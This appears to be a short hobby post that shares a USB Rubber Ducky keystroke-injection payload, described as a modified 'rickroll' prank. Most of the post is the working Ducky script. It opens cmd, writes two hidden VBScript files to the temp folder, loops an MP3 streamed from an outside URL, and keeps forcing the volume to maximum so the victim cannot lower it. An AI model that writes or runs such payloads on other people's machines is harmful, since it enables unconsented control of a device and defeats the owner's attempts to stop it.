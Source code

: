 Based on: https://gitlab.com/WarKitteh/arduino-hid-rickroll

GitLab repo (Modded): https://github.com/BlueArduino20/Rickroll-MODDED

It creates and starts 2 vbs files. One of them plays Never Gonna Give You Up from Rick Astley on a loop without any windows showing up. Another vbs file sets the volume to the maximum continuously and if someone tries to get down the volume, it will reset the volume to the maximum level.

Ducky code:
<pre><code>
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
</pre></code>